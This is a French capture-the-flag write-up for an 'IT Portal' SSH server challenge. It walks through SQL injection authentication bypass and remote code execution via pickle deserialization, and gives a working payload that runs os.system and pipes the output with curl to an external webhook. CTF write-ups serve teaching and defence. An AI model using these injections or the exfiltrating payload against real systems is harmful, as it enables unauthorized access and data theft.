

# IT Portal
## Write-up

### Intrusion 🕵️
Pour cette première partie de la track, nous avons accès au code source d'un serveur SSH fait avec [Paramiko](https://www.paramiko.org/), une librarie Python qui implémente SSHv2.

Il y a beaucoup de code, mais tout ce qui nous intéresse pour le moment c'est la fonction `ITPortal#check_auth_password`.

```python
def check_auth_password(self, username: str, password: str) -> int:
    con = sqlite3.connect(DB)
    c = con.cursor()

    user = c.execute(
        f'SELECT user_id from users where username LIKE "{username}"'
    ).fetchone()
    if user is None:
        return AUTH_FAILED

    auth = c.execute(
        f'SELECT user_id from users where username == "{username}" and password == "{password}"'
    ).fetchone()
    if auth is not None:
        return AUTH_SUCCESSFUL
    return AUTH_FAILED
```

Pour tous ceux qui ont des connaissances de sécurité de base, une alerte devrait se déclencher 🚨! On a deux injections SQL avec le nom d'utilisateur et le mot de passe.

On pourrait réussir à se connecter avec une seule injection comme `" or 1=1--` dans le nom d'utilisateur, mais la commande `ssh` ne supporte pas ce genre de nom d'utilisateur (bien que c'est possible de le faire avec une librarie comme Paramiko).

Si on veut garder une solution purement en ligne de commande, on peut utiliser `%` dans le nom d'utilisateur (qui retournera tout les utilisateurs grâce au `LIKE`) et une injection standard comme `" or 1=1--` dans le mot de passe.

```sh
$ ssh -l '%' -p 2020 <ip>
# mot de passe: " or 1=1--

[ flag-aa2181b8db80934befc12a9faf688b ]
-----------------------
|| IT SUPPORT PORTAL ||
-----------------------
|  1 - Create Ticket  |
|  2 - Check Ticket   |
|  x - Exit           |
-----------------------
>
```

### Compromission 🐚
Pour ce deuxième niveau, nous souhaitons obtenir de l'exécution de code arbitraire.

Dans la fonction `check_tickets`, on voit un candidat classique pour de l'exécution de code, soit `pickle.loads`.

```python
def check_tickets(project: str) -> str|None:
    con = sqlite3.connect(DB)
    c = con.cursor()
    body = ""
    try: 
        tickets  = c.execute("SELECT ticket from tickets where project = (?)", 
                           (project,)).fetchall()
        if len(tickets) == 0:
            return None
        for ticket in tickets:
            if ticket is None:
                continue
            t =  pickle.loads(base64.b64decode(ticket[0]))      # !!! c'est pas bien ça...
            line = f"|   {t.subject} :: {t.status}\r\n"
            body += line
        return body
    except Exception as e:
        print("[!] Err: ", e)
    finally:
        c.close()
        con.close()
```

`pickle` est un module Python inclu dans la librarie standard qui permet de sérialiser des objets Python. Ça peut être très utile, mais puisque ça permet de sérialiser et déserialiser des objets Python, il est possible de faire d'exécuter du code avec la méthode `__reduce__` (voir la [documentation concernée](https://docs.python.org/3/library/pickle.html#object.__reduce__)).

Par exemple, voici un exemple d'exécution de code simple avec `pickle`. Cet exemple imprime `Salut!!!`.

```python
import pickle

class Magic:
    def __reduce__(self):
        return print, ('Salut!!!',)

serialized = pickle.dumps(Magic())
pickle.loads(serialized)
```

Maintenant que nous avons trouvé notre cible, il faut trouver comment se rendre là. Heureusement, on n'a pas à chercher loin. Voici la fonction `create_ticket`:

```python
def create_ticket(project: str, subject: str, desc: str):
    con = sqlite3.connect(DB)
    c = con.cursor()
    try: 
        t = Ticket(subject, desc)
        t_blob = base64.b64encode(pickle.dumps(t)).decode()
        c.execute(f'INSERT INTO tickets (project, ticket) VALUES ("{project}", "{t_blob}")')
        con.commit()
    finally:
        c.close()
        con.close()
```

Comme on peut le voir, il y a une injection SQL possible (encore). Si on envoie un nom de projet comme `abc", "blah blah")--`, on peut injecter `blah blah` comme ticket sérialisé. Au moment de la lecture des tickets, celui-ci sera décodé de base64 et désérialisé avec `pickle.loads`.

Notre chemin d'attaque va donc comme-ci:

1. Concocter un object Python avec une fonction `__reduce__` malicieuse.
2. Encoder le résultat de `pickle.dumps(notre_objet)` en base64.
3. Créer un ticket avec comme nom de projet, `foo", "<base64 de pickle>")--`.
4. Lire les tickets du projet `foo`.
5. Profit!

La description du défi nous indique que le flag est la racine du système. On peut donc utiliser cet objet Python sérialisé:

```python
import pickle
import os
import base64

class Magic:
    def __reduce__(self):
        return os.system, ('ls / | curl --data-binary @- https://webhook.site/9d7c1100-fc41-4fff-bd29-a61a47096440',)

serialized = pickle.dumps(Magic())
serialized_b64 = base64.b64encode(serialized)
print(serialized_b64.decode())

# gASVcQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFZscyAvIHwgY3VybCAtLWRhdGEtYmluYXJ5IEAtIGh0dHBzOi8vd2ViaG9vay5zaXRlLzlkN2MxMTAwLWZjNDEtNGZmZi1iZDI5LWE2MWE0NzA5NjQ0MJSFlFKULg==
```

Si on suit le plan d'attaque décrit plus haut, nous obtenons les contenus à la racine dans notre webhook et nous obtenons notre flag! (`flag-813aad04a59b715ffcd9abc1d76f3c`)



## Flags
`flag-aa2181b8db80934befc12a9faf688b` et `flag-813aad04a59b715ffcd9abc1d76f3c`